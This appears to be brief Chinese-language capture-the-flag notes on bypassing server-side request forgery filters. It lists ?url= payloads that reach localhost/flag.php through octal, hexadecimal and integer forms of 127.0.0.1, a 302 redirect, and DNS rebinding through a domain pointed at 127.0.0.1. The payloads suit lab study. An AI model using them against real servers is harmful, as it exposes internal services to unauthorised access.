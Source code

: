 ### 数字IP Bypass
```html
?url=http://localhost/flag.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751800054046-3a886528-a260-4718-a164-357852acd9c6.png)

```html
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433
16进制整数格式：0x7F000001
```

### 302跳转 Bypass
```html
?url=http://localhost/flag.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751800351087-8c9e2330-4805-4ca8-9d14-7c65dbc81f89.png)

### DNS重绑定 Bypass
```html
?url=http://www.baidu.com/index.html #可访问域名
```

添加DNS A记录为127.0.0.1

```html
?url=http://local.ghostliner.top/flag.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751800835105-43b56420-cc01-4e6a-b10d-efe9316a10b8.png)

